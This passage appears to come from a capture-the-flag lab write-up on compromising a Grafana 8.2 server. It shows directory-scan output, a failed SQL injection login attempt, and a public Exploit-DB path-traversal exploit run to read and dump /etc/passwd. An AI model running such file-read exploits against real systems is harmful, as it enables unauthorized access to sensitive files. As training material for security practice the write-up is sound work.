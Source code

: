 ```console
401      GET        1l        1w       27c http://10.129.51.253:3000/api_test
401      GET        1l        1w       27c http://10.129.51.253:3000/api_test.php
401      GET        1l        1w       27c http://10.129.51.253:3000/api_test.html
401      GET        1l        1w       27c http://10.129.51.253:3000/api_test.txt
401      GET        1l        1w       27c http://10.129.51.253:3000/api_test.git
302      GET        2l        2w       54c http://10.129.51.253:3000/public/app/plugins/datasource => /public/app/plugins/datasource/
```

Accessing the site gave back a login screen, I attempted login bypass with sql injection but had no luck.

Note: I noticed in burpsuite that there was also a redirect field that seems interesting but I never ended up doing anything with it.

![image](https://user-images.githubusercontent.com/105310322/193699522-4de4729e-b5b5-4eb3-9ffd-d62293f07f64.png)


Instead there was a simple exlpoit for grafana that allowed you to read files. Which is really just an LFI. TO make sure it is vulnerable we can confirm the version of this grafana by looking at the bottom of the login screen. This shows that our version is 8.2.

https://www.exploit-db.com/exploits/50581

Running the exploit we can read any files we know are there and that we have access too. I was not able to grab much else but.....

```console
└─$ python3 50581.py -H http://10.129.51.253:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
```
